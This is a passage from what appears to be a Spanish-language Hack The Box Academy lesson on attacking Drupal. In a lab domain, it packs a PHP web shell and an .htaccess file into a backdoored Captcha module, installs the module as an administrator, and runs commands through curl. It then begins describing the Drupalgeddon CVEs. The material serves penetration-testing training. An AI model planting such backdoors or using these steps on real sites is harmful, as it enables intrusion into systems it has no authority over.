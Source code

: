 La configuración anterior aplicará reglas para la carpeta / cuando solicitemos un archivo en /modules. Copie ambos archivos a la carpeta captcha y cree un archivo comprimido.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

Suponiendo que tenemos acceso administrativo al sitio web, haga clic en `Manage` y luego en `Extend` en la barra lateral. A continuación, haga clic en el botón `+ Install new module`, y seremos llevados a la página de instalación, como `http://drupal.inlanefreight.local/admin/modules/install`.
Busque el archivo Captcha con puerta trasera y haga clic en `Install`.

`http://drupal.inlanefreight.local/core/authorize.php`

![](https://academy.hackthebox.com/storage/modules/113/module_installed.png)

Una vez que la instalación tenga éxito, navegue a `/modules/captcha/shell.php` para ejecutar comandos.

```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Leveraging Known Vulnerabilities

A lo largo de los años, el núcleo de Drupal ha sufrido algunas vulnerabilidades graves de ejecución remota de código, cada una apodada `Drupalgeddon`. Al momento de escribir, existen 3 vulnerabilidades Drupalgeddon.

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), conocida como Drupalgeddon, afecta a las versiones 7.0 hasta 7.31 y se solucionó en la versión 7.32. Esta fue una falla de inyección SQL preautenticada que podría usarse para subir un formulario malicioso o crear un nuevo usuario administrador.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), también conocida como Drupalgeddon2, es una vulnerabilidad de ejecución remota de código, que afecta a las versiones de Drupal anteriores a 7.58 y 8.5.1. La vulnerabilidad ocurre debido a una sanitización de entrada insuficiente durante el registro de usuarios, lo que permite que se inyecten comandos a nivel del sistema de manera maliciosa.
    